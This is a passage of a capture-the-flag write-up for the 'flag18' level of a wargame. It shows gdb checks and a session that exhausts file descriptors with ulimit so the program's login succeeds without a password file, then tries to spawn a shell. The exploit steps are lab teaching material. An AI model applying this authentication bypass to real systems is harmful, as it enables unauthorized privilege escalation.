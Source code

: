           notsupported(line + 10);
      } else if(strncmp(line, "setuser", 7) == 0) {
          setuser(line + 8);
      }
  }

  return 0;
}
{% endcodeblock %}

First thing that we tried was to use parameter `-d /home/flag18/password` to
rewrite password file with the known output, however the `strcmp()` doesn't match
for the reason that we cannot insert the newline character to the end of our string.

The `fclose()` on line 34 is not aligned, that's strange. We found out that this call is not used in the binary file:

{% codeblock %}
sh-4.2$ gdb -batch -ex 'file /home/flag18/flag18' -ex 'set disassembly-flavor intel' -ex 'disassemble login' | grep close
sh-4.2$ 
{% endcodeblock %}

We can use login function to exhaust file descriptors, because when the `fopen()` fails, we will be logged in. After a few tries:

{% codeblock %}
sh-4.2$ help ulimit
[..snip..] 
      -n        the maximum number of open file descriptors
[..snip..] 

sh-4.2$ ulimit -n 8

sh-4.2$ /home/flag18/flag18 -d /dev/tty -vvv
Starting up. Verbose level = 3
login
got [login] as input
attempting to login
login
got [login] as input
attempting to login
login
got [login] as input
attempting to login
login
got [login] as input
attempting to login
login
got [login] as input
attempting to login
logged in successfully (without password file)
closelog
got [closelog] as input
shell
/home/flag18/flag18: -d: invalid option
Usage:  /home/flag18/flag18 [GNU long option] [option] ...
        /home/flag18/flag18 [GNU long option] [option] script-file ...
GNU long options:
        --debug
        --debugger
        --dump-po-strings
        --dump-strings
        --help
        --init-file
        --login
        --noediting